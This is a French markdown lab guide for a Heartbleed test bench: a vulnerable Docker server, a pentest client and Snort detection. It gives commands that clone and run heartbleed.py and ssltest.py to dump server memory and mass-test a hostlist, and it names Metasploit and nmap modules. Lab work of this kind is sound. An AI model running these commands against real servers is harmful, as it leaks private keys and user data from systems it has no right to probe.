 #### Récapitulatif exploiter la faille/ tester la vulnérabilité

- attaque via metasploit msfconsole
- usage de nmap avec le module ssl-heartbleed
- script
    - ssltest.py
    - heartbleed.py
    - [fox](http://blog.fox-it.com/wp-content/uploads/2014/04/fox_heartbleedtest.zip)
    - [pacemaker.py](https://github.com/Lekensteyn/pacemaker)
- tester via openssl_client 
- tester avec un ids/idps
-  heartbleeder *paquetage linux*



##### prérequis 
- outils :
    - Attaquant
        - git 
        - docker:
            - docker-ce
            - docker-compose
        - docker
    - Pentester :
        - Quasiment tout les fichiers sauf heartbleeder
            - git    
        - stimulate-server.py -- heartbleed.py -- ssltest.py
            - python:
                - python1-2
                - python3
        - Linux Debian distributions
            - heartbleeder
    - Détecteur :
        - snort

#### Mise en place via les scripts :
- Un serveur sera le serveur vulnérable 
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-server.sh
- Un client sera le client lambda ou pentester *test de sécurité*
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-pentest.sh
-  On configure les hostslist et les adresses IP sur les serveurs ou en les récupérant 
> [!NOTE]
> $ip correspond à l'adresse IP du serveur vulnérable si le serveur

##### Mise en place du serveur vulnérable :
-  Installation de Docker
`chmod +x && ./install-docker.sh  && sudo apt-get install -y docker-compose`

- Installation du serveur vulnérable avec un docker-compose.yml
```bash
sudo apt-get update -y && apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git

cd heartbleed-example
docker-compose up
```

> [!NOTE]
> A readme file is in : ./markdown/heartbleed-example/README.md
> The project is delivered with :
> Un docker-compose pour lancer le serveur vulnérable
> Un programme pour injecter de la donnée : `stimulate_server.py`
> Un script pour exploiter : `heartbleed.py` : dump le contenu du serveur et teste si le serveur est vulnérable (outil principal)


### Mise en place du serveur pentest :

#### Injecter de la donnée / stimuler le serveur cible

```bash
sudo apt-get update -y && apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git
cd heartbleed-example


chmod +x stimulate_server.py
python stimulate_server.py -a $ip
```


#### Pentest :
- Voici les principales étapes : lors de l'installation des outils :
    - Tester avec un outil de pentest :
        - install git
        - clone and cp repo
        - config hostlist
        - test

-  HEARTBLEED : *Dump la RAM*
    - script heartbleed.py
    
    ```bash
        sudo apt-get update -y && apt-get install -y python
        git clone https://github.com/injcristianrojas/heartbleed-example.git
        cd heartbleed-example


        chmod +x heartbleed.py
        python heartbleed.py $ip -p 443
        python heartbleed.py $ip -p 443 -v -n 50
    ```


- Paquetage linux heartbleeder : *Check*

```bash
sudo apt-get update -y && apt-get install -y heartbleeder && sudo apt-get autoremove -y
heartbleeder $ip:443
```


-  Usage du script ssltest.py : *Check*

```bash
apt-get update -y && apt-get install -y python
apt-get update -y && apt-get install -y git 
git clone https://github.com/tdussa/heartbleed-masstest.git
cd heartbleed-masstest
nano hostlist.txt && chmod +x ssltest.py
./ssltest.py --ports "443, 993, 995, 44330" hostlist.txt
```

- tester via openssl_client *Check and dump*

```bash
openssl s_client -connect $ip:44330 -tlsextdebug | grep "TLS server extension"
```


- mais au préalable
    - mise en place du serveur vulnérable depuis le serveur docker ou un autre serveur
    ```bash
    openssl s_server -key /etc/ssl/private/apache-selfsigned.key -cert /etc/ssl/certs/apache-selfsigned.crt -accept 44330 -www
    ```


#### attaque :
- attaque via metasploit msfconsole
- usage de nmap avec le module ssl-heartbleed





==============================================================================================
### mise en place du serveur vulnérable sur Windows
- En cas de problème de ports :
    ```powershell
    netstat -aon | find ":443"
    tasklist /SVC /FI "PID eq 15524"
    ```
    
   *tuer le processus ex: VMWARE*


======================
#####  Mise en place de snort
<!-- - launch sol2
    - Select Save from the bar on top and close the file. At this point, Snort is ready to run.   
    Except, it doesn’t have any rules loaded. To verify, run the following command:    
    `sudo snort -T -i eth0 -c /etc/snort/snort.conf`
    - Now, let’s start Snort in IDS mode and tell it to display alerts to the console:
    `sudo snort -A console -q -c /etc/snort/snort.conf -i eth0` -->